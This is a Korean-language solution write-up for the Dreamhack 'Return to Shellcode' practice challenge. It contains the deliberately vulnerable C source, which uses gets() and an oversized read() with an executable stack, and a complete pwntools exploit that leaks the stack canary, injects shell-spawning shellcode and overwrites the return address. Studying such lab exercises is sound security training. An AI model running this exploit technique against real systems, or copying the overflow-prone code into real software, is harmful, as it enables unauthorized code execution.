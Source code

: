 # [Dreamhack] Return to Shellcode 풀이

---

# C 코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

파일을 실행하면 buf의 주소랑 buf와rbp의 오프셋을 알려준다. 이 정보를 토대로 첫번째 입력때 카나리를 leak하고, 두번째 입력때 쉘코드 삽입후 ret주소를 buf의 주소로 덮어주면 쉘을 딸 수 있을꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- 없는거같다

이번 문제는 디버깅으로 알아내야하는 건 없고 전부 익스플로잇코드를 짜면서 해결 할 수 있는 문제다.

---

# Exploit

```python
from pwn import *

p = process("./r2s")
context.arch = "amd64"

p.recvuntil(b"buf: ")
buf_addr = p.recv(14) #buf주소 받기
p.recvuntil(b'$rbp: ')
buf2rbp_offset = p.recv(2) #buf랑 rbp 오프셋 받기
buf2canary = int(buf2rbp_offset) - 8 #buf랑 canary 오프셋 구하기

#----------Canary_leak----------
print("[+] Buf <-> Canary =", buf2canary)
canary_pay = b'A' * (buf2canary+1) #카나리 null바이트 1만큼 더해서 입력
p.sendafter(b"Input:", canary_pay)
p.recvuntil(canary_pay) #입력한 페이로드 걸러주기
canary = u64(b"\x00"+p.recvn(7)) #카나리 값 입력받기
print("[+] Canary =", hex(canary))

#----------Exploit----------
payload = asm(shellcraft.sh()) #쉘코드 입력
payload += b'A' * (buf2canary - len(payload)) #쉘코드 길이 빼고 카나리 전까지 더미데이터 입력
payload += p64(canary) #카나리 입력
payload += b'A' * 8  #sfp 입력
payload += p64(int(buf_addr,16)) #buf 주소 입력

p.sendlineafter(b': ', payload)
p.interactive()
```

이렇게 익스 코드를 짜주었다. 설명은 전부 주석으로 달아놓았다.

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/r2s.png)

쉘이 잘 따진다.